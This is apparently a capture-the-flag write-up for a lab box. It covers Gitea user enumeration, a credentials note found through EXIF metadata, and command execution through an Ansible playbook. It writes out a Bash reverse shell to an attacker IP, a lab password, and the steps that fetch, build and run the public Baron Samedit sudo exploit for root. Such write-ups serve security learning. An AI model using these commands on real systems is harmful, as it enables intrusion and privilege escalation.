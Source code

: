 
## Exploitation

### Foothold
1. Getting more information on *Gitea* from [[https://cloud.hacktricks.xyz/pentesting-ci-cd/gitea-security#unauthenticated-enumeration|here]] we can see there is a path where the users can be searched by default: /explore/users
2. Checking the above location we discovered user: *samarium*
3. Download all the pictures in the and check the EXIF using *exiftool*. One of the picture has the path: *:8080/764efa883dda1e11db47671c4a3bbd9e.txt*

```txt
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP

ansible runner (olivetin): port 1337
```

#### Data exfiltration

1. Using the above username and password we can login to gitea app and check the repo samarium/ansible, here is the first flag: *[FirstFlag]*
2. In the same repo we can change the "command" tag in the yaml file ansible/playbook.yaml to "cat flag2.txt" and run the ansible script from 10.10.212.255:1337 to get second flag: *[SecondFlag]*
3. Again modify the .yaml file and insert the revshell command as bellow and run ansible script again after setting up a a listener
```yaml
- name: Test 
  hosts: all                                  # Define all the hosts
  remote_user: bismuth                                  
  # Defining the Ansible task
  tasks:             
    - name: get the username running the deploy
      become: false
      command: whoami
      register: username_on_the_host
      changed_when: false

    - debug: var=username_on_the_host

    - name: Test
      shell: bash -c 'bash -i >& /dev/tcp/10.8.35.41/4455 0>&1'
```

### Privilege escalation
1. Go to /tmp folder and download from attacking machine leanpeas.sh
2. After running linpeas we can see is vulnerable to Exploit CVE-2021–3156 (Baron Samedit)
3. Download the exploit from [[https://github.com/blasty/CVE-2021-3156|github]] and and move it to victim machine using:
```sh
wget — —recursive — —no-parent [http://yourkaliattackip/CVE-2021-3156](http://10.14.34.171/CVE-2021-3156)  #command to copy from attacking machine

cd /youipdirectory  
cd /CVE-2021–3156  
make  
./sudo-hax-me-a-sandwich 0
```